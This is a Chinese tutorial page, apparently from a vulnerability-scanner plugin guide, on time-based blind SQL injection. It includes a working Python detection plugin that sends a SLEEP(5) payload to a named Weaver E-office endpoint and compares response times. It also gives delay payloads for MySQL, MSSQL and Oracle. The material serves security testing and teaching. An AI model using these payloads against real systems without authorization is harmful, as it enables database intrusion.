 # 时间盲注类插件
---

这一类的注入在返回页面中没有回显，但可以根据返回页面的结果判断构造的SQL条件语句的真假性。

#### 实例

**范例插件**:

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

def assign(service, arg):
    if service == fingerprint.weaver_e_office:
        return True, arg

def time_sql(arg):
    payload = "%20AND%20SLEEP%285%29"
    url = arg+"E-mobile/source_page.php?pagediff=email=9"
    start_time = time.time()
    ture_code, head, res, final_url, log= hackhttp.http(url)
    ture_time = time.time()- start_time
    start_time = time.time()
    false_code, head, res, final_url, log= hackhttp.http(url+payload,timeout=30)
    false_time = time.time()- start_time
    if false_code == 200 and ture_code ==200 and false_time -ture_time >4:
       return url,log,True

def audit(arg):
    check = True
    for i in xrange(3):
        if check:
            res = time_sql(arg)
            check = check and res[2]
    if check:
        security_hole(res[0], log=res[1])

if __name__ == '__main__':
    from dummy import *
    audit(assign(fingerprint.weaver_e_office, "http://localhost/")[1])


```


### MySQL 数据库
	
**方法**：使用 `sleep()` 函数达到延时。

其 SQL 语句原型类似：

```
SELECT IF(1=1, sleep(5), "1");
SELECT IF(1=2, sleep(5), "1");
```

### MSSQL 数据库

**方法**：使用 `waitfor delay` 达到延时。

其 SQL 语句原型类似：

```
waitfor delay '0:0:5'
```

### Oracle 数据库

**方法**：`receive_message` 函数用于接收管道消息，并将接收到的消息写入到本地消息缓冲区。当接收完管道信息之后，会删除管道消息，管道消息只能被接收一次。

```
AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
```

`receive_message` 语法：

```
dbms_pipe.receive_message(pepename in varchar2,timeout in integer default maxwait) return integer;
```

其中，返回 0 接收成功，返回 1 超时，返回 2 本地缓冲区不能容纳管道消息，返回 3 发生中断。
